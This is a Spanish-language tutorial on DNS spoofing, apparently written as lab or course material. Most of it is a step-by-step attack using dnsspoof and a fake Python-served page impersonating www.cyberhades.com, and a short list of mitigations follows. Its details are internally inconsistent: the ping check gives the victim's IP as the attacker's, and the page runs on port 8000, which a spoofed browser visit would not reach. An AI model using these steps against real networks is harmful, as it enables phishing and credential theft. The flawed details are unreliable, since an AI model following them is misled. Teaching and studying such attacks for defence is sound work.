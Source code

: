 # DNS Spoofing: Ataque y Mitigación

El **DNS Spoofing**, también conocido como envenenamiento de caché DNS, es un ataque en el que un agente malicioso intercepta peticiones DNS y responde con direcciones IP falsas para redirigir a los usuarios a sitios web maliciosos sin que estos se den cuenta. El objetivo principal es engañar a los usuarios para que entreguen información sensible o descarguen **malware**. Esta técnica es comúnmente utilizada en ataques de **phishing** para robar información confidencial.

El flujo del ataque de DNS Spoofing se inicia cuando un usuario solicita la dirección IP de un sitio web legítimo a un resolver DNS. El atacante intercepta esta solicitud e introduce un registro DNS falso para el sitio, haciendo que el resolver retorne la IP del sitio malicioso como si fuera la legítima. De esta manera, el usuario accede al sitio del atacante, creyendo que es el sitio seguro, y en este punto, el usuario puede entregar información sensible.

## Realización de un Ataque de DNS Spoofing

Para demostrar un ataque de DNS Spoofing, se utilizan dos máquinas virtuales Ubuntu: una como atacante (IP: 10.211.55.5) y otra como víctima (IP: 10.211.55.17). El ataque se realiza utilizando la herramienta `dnsspoof`, que forma parte del kit de herramientas `dsniff`, y un servidor web básico con Python.

### 1\. Instalación de Herramientas Necesarias

En la máquina atacante, se instala el paquete `dsniff`.

```bash
sudo apt install dsniff
```

Este comando instala el conjunto de herramientas `dsniff`, que son útiles para auditorías de red y pruebas de penetración.

### 2\. Creación del Fichero de Hosts Falsos

El primer paso para utilizar `dnsspoof` es crear un archivo de hosts que asocie un dominio legítimo con una dirección IP controlada por el atacante.

1.  **Crear el fichero de hosts:**
    ```bash
    sudo nano mynewhost.txt
    ```
    Se edita el archivo `mynewhost.txt` para incluir la asociación IP-dominio.
    ```
    10.211.55.5 www.cyberhades.com
    ```
    En este ejemplo, `10.211.55.5` es la dirección IP de la máquina atacante y `www.cyberhades.com` es el dominio que se quiere suplantar. Cada vez que se acceda a este dominio, se redirigirá a la dirección IP especificada.

### 3\. Creación de la Página Web Falsa (HTML)

El atacante debe montar un pequeño servidor web en la dirección IP especificada en `mynewhost.txt`. Esta página web será la que vea el usuario que piensa que está accediendo al sitio legítimo.

1.  **Crear el archivo `index.html`:**
    ```bash
    nano index.html
    ```
    Se crea un archivo HTML básico que simulará la página web suplantada.
    ```html
    <!DOCTYPE html>
    <html>
    <head>
        <title>CyberHades</title>
    </head>
    <body>
        <h1>Welcome to new CyberHades</h1>
        <p>This is not the original web</p>
    </body>
    </html>
    ```
    Este código HTML simple mostrará un texto que indicará que no es la página original. En un ataque real, esta página sería un clon muy similar a la legítima, con formularios para capturar credenciales u otra información personal.

### 4\. Levantamiento del Servidor Web con Python

Para servir la página HTML falsa, se levanta un servidor web simple utilizando Python.

1.  **Iniciar el servidor HTTP de Python:**
    ```bash
    python3 -m http.server 8000
    ```
      * `python3`: Invoca el intérprete de Python 3.
      * `-m http.server`: Carga el módulo de servidor HTTP integrado de Python.
      * `8000`: Especifica el puerto en el que el servidor escuchará las conexiones.
        Este comando publica la página `index.html` en la IP de la máquina atacante en el puerto 8000 (por ejemplo, `http://localhost:8000`). Esta será la página a la que se redirigirá a la víctima.

### 5\. Ejecución del Ataque DNS Spoofing

Con el servidor web funcionando, se lanza `dnsspoof` en una nueva terminal para interceptar las peticiones DNS.

1.  **Lanzar `dnsspoof`:**
    ```bash
    sudo dnsspoof -i eth0 -f mynewhost.txt
    ```
      * `sudo`: Ejecuta el comando con privilegios de superusuario.
      * `dnsspoof`: Invoca la herramienta para el DNS Spoofing.
      * `-i eth0`: Especifica la interfaz de red (`eth0`) a través de la cual se realizará el ataque y se escuchará el tráfico DNS.
      * `-f mynewhost.txt`: Indica el archivo de hosts (`mynewhost.txt`) que `dnsspoof` utilizará para las redirecciones.
        Una vez lanzado, `dnsspoof` comenzará a escuchar la red en busca de peticiones DNS. Cuando reciba una petición para uno de los dominios especificados en `mynewhost.txt`, responderá con la IP falsa y redirigirá al usuario al sitio controlado por el atacante.

### 6\. Verificación del Ataque (Desde la Máquina Víctima)

Desde la máquina víctima, se intenta acceder al dominio suplantado para comprobar si el ataque ha sido exitoso.

1.  **Hacer `ping` al dominio suplantado:**

    ```bash
    ping www.cyberhades.com
    ```

    Se observa que el `ping` no se dirige a la IP pública original del dominio, sino a la IP de la máquina atacante (`10.211.55.17`). Esto confirma que el DNS Spoofing ha desviado el tráfico correctamente.

2.  **Abrir el navegador web:**
    Al acceder a `www.cyberhades.com` en el navegador de la máquina víctima, se mostrará la página web falsa montada por el atacante, confirmando el éxito del spoofing.

Las consecuencias de un DNS Spoofing exitoso pueden ser graves, ya que el usuario, al creer que está en un sitio legítimo (por ejemplo, de trabajo), podría introducir credenciales, información personal, o descargar archivos maliciosos, permitiendo al atacante obtener información confidencial o comprometer el sistema.

## Mitigación de Ataques DNS Spoofing

Para mitigar los ataques de DNS Spoofing, se deben implementar varias estrategias de seguridad:

  * **Implementar DNSSEC (DNS Security Extensions):**
    DNSSEC añade una capa de autenticación a las respuestas DNS, asegurando su integridad y autenticidad. Esto dificulta enormemente que los atacantes manipulen las respuestas DNS sin ser detectados. Se deben usar servidores DNS con validación DNSSEC para verificar las firmas digitales de las respuestas y prevenir respuestas falsificadas.

  * **Configurar Cortafuegos y Sistemas IDS/IPS:**
    Los **cortafuegos** y los sistemas de detección y prevención de intrusiones (**IDS/IPS**) deben configurarse para detectar y bloquear el tráfico DNS sospechoso o malicioso. Estas herramientas pueden identificar patrones de tráfico anormales o conocidos asociados con ataques de DNS Spoofing.

  * **Mantener Actualizado el Software del Servidor DNS:**
    Es crucial mantener el software del servidor DNS actualizado regularmente. Las actualizaciones suelen incluir parches para vulnerabilidades conocidas que podrían ser explotadas en ataques de spoofing.

  * **Análisis de Tráfico DNS Continuo y Políticas de Seguridad Estrictas:**
    Realizar análisis de tráfico DNS continuo y aplicar políticas de seguridad estrictas en el manejo interno de las DNS puede ayudar a identificar y prevenir ataques.

La implementación de estas estrategias de mitigación es fundamental para proteger la arquitectura de red contra los ataques de DNS Spoofing, proporcionando robustez en la autenticidad y seguridad de las respuestas DNS.
